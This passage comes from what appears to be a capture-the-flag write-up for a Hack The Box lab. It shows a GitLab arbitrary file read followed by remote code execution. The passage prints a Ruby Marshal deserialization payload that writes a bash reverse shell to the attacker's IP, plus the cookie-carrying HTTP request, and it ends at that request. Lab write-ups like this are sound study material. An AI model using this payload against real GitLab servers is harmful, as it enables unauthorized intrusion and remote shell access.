 - I moved the issue to the `repo2`
    
- I downloaded the `passwd`file

![gitlab file read](/assets/img/htb/laboratory/file-read.png)

## Gitlab RCE

Since gitlab app was vulnerable i could perform the RCE as mentioned in the report. First of all i made a `Marshalled payload` with the github-rails console, to store `/tmp/shell`:

>shell.sh

```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `echo 'bash -i >& /dev/tcp/10.10.14.148/4545 0>&1' > /tmp/shell.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

With Burp i replaced the text in the `experimentation_subject_id cookie` with above url-encoded, and i forwarded http request:

```
GET / HTTP/1.1
Host: git.laboratory.htb
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
```